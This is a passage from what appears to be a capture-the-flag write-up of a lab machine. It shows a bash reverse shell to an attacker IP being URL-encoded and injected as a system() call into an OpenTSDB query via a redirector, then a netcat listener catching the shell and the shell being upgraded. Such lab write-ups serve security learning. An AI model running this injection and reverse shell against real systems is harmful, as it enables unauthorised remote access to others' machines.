 I took this simple reverse shell:

```text
'/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.95/1337 0>&1"'
```

I URL encoded it so it looked like this:

```text
%27%2f%62%69%6e%2f%62%61%73%68%20%2d%63%20%22%2f%62%69%6e%2f%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%36%2e%39%35%2f%31%33%33%37%20%30%3e%26%31%22%27
```

Then I started my redirector with that in there as the system command to execute:

```sh
┌──(root💀kali)-[~/htb/admirertoo]
└─# python2 redirect.py --port 80 'http://127.0.0.1:4242/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:http.stats.web.hits&o=&ylabel=&xrange=10:10&yrange=[33:system(%27%2f%62%69%6e%2f%62%61%73%68%20%2d%63%20%22%2f%62%69%6e%2f%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%36%2e%39%35%2f%34%34%34%34%20%30%3e%26%31%22%27)]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json'
serving at port 80
```

Back to the browser, intercept with Burp etc. Forward on request in Burp then back to the terminal to see we are connected:

```sh
┌──(root💀kali)-[~]
└─# nc -nlvp 4444 
listening on [any] 4444 ...
connect to [10.10.16.95] from (UNKNOWN) [10.10.11.137] 58776
bash: cannot set terminal process group (584): Inappropriate ioctl for device
bash: no job control in this shell
opentsdb@admirertoo:/$ 
```

Upgrade shell before we do anything:

```text
opentsdb@admirertoo:/$ which python
/bin/python
opentsdb@admirertoo:/$ python -c 'import pty;pty.spawn("/bin/bash")'
opentsdb@admirertoo:/$ ^Z    
zsh: suspended  nc -nlvp 4444
┌──(root💀kali)-[~]
└─# stty raw -echo; fg
opentsdb@admirertoo:/$ stty rows 51 cols 236
opentsdb@admirertoo:/$ export TERM=xterm
```

## OpenCats

Looking around I found something interesting in the /opt folder:

```text
opentsdb@admirertoo:~$ ls -l /opt
drwxr-xr-x  9 root hbase 4096 Jul  8  2021 hbase
drwxr-xr-x 23 root root  4096 Jul 21  2021 opencats
```
